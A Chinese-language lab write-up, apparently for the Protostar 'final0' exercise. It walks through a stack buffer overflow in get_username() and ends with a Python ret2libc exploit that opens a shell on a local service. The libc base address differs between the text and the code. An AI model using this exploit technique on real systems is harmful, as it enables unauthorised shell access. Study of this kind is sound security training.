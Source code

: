 2、IDA查看关键函数get_username()，找到s[]的大小是512。

![image-20211013122111716](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940198.png)

final0在本地2995端口号进行监听。当final0正常运行后，会返回No such user+大写的用户名信息，测试发现输入的字符到532时没有回显。当测试输入532*"A"+"DDDD"后，查看报错信息，发现返回地址被修改为0x44444444，说明需要填充532bytes+4bytes才能覆盖返回地址。

![image-20211013120806310](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940208.png)

![image-20211013191854512](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940465.png)

3、由于get_username中有将小写转换成大写的操作，所以如果直接注入shellcode可能会失效。但是中间用了strlen()函数，遇到\x00会停止，所以要在shellcode前面加入'\x00'。

![image-20211013190126152](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940803.png)

溢出的思路是用exceve@的地址填充到return address，再填充/bin/sh的地址，这样就可以获得shell权限。

在IDA中可以直接找到execve@plt的地址是0x08048c0c。

![image-20211013115516288](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940057.png)

通过grep指令可以在libc中找到/bin/sh字符串的偏移：1176511。

```shell
grep -abo /bin/sh /lib/libc.so.6
```

![image-20211013115842848](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940792.png)

再查找libc的基址，通过查看final0进程的maps找到基址：`0xb7e9700`。所以`/bin/sh的地址=libc基址+offset`，即`0xb7e9700+1176511`。

![image-20211013120348997](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940174.png)

4、根据上述信息构造exp脚本：

```python
from socket import *
from struct import *
import telnetlib
 
host = '127.0.0.1'
port = 2995
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((host,port))
 
padding = 'a'*531+'\x00'
execve = pack("I", 0x08048c0c) # execve@plt

binsh = pack("I",0xb7e97000+1176511) # 0xb7e97000:libc base_addr 176511:/bin/sh 

exp = padding + execve + "AAAA" + binsh + "\x00"*8
 
s.send(exp+'\n')
s.send("id\n")
print s.recv(1024)
 
t = telnetlib.Telnet() # telnetlib获取系统telnet命令执行权限

t.sock = s
t.interact()
```
